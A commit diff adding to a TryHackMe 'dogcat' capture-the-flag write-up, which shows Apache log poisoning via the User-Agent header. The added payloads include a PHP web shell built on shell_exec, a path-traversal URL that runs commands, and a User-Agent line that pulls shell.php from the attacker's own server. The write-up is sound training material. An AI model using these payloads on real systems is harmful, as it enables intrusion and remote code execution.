

Before and after one commit to Aryt3/writeups, a Markdown page: tryhackme/dogcat/readme.md, the part around one of its changes. Shown at 86% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/tryhackme/dogcat/readme.md
+++ b/tryhackme/dogcat/readme.md
@@ -125,4 +126,61 @@ After poking around a bit I also found the file `/var/log/apache2/access.log`. <
 ![grafik](https://github.com/Aryt3/writeups/assets/110562298/44f84c81-be23-492c-9630-e99f08b17379)
 
 Looking at the access logs we can see that the user agent is logged additionally without being URL encoded. <br/>
-Now this may be used to upload malicious content.
+Now this may be used to upload malicious content. <br/>
+
+Testing with the following request: <br/>
+```sh
+GET / HTTP/1.1
+Host: 10.10.198.107
+Upgrade-Insecure-Requests: 1
+User-Agent: <?php echo phpinfo()?>
+Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
+Accept-Encoding: gzip, deflate
+Accept-Language: en-US,en;q=0.9
+Connection: close
+```
+
+Viewing the logs: <br/>
+![grafik](https://github.com/Aryt3/writeups/assets/110562298/1339543d-0012-46db-8316-d8cf527820d0)
+
+After knowing that it works I sent another request to implement a way t oexecute commands. <br/>
+```sh
+GET / HTTP/1.1
+Host: 10.10.27.254
+Upgrade-Insecure-Requests: 1
+User-Agent: <?php echo shell_exec($_GET['cmd']) ?>
+Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
+Accept-Encoding: gzip, deflate
+Accept-Language: en-US,en;q=0.9
+Connection: close
+```
+
+After executing the request I used the following url to list the contents of the working directory: <br/>
+```sh
+http://10.10.27.254/?view=dog/../../../../var/log/apache2/access.log&cmd=ls&ext=
+```
+
+This let's us see the following: <br/>
+```
+10.18.20.25 - - [27/Oct/2023:10:41:30 +0000] "GET / HTTP/1.1" 200 500 "-" "cat.php cats dog.php dogs flag.php index.php style.css
+```
+
+This doesn't get us far so sending the following request I tried to send over a php reverse shell. <br/>
+```sh
+GET / HTTP/1.1
+Host: 10.10.27.254
+Upgrade-Insecure-Requests: 1
+User-Agent: <?php echo file_get_contents('http://10.18.20.25/shell.php'); ?>
+Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
+Accept-Encoding: gzip, deflate
+Accept-Language: en-US,en;q=0.9
+Connection: close
+```
+
+Looking at my http server: <br/>
+```sh
+python3 -m http.server 80
+Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
+10.10.27.254 - - [27/Oct/2023 12:51:21] "GET / HTTP/1.0" 200 -
+10.10.27.254 - - [27/Oct/2023 12:51:21] "GET /shell.php HTTP/1.0" 200 -
+```
````
Also changed, not shown: other parts of tryhackme/dogcat/readme.md (+2 -1 lines).
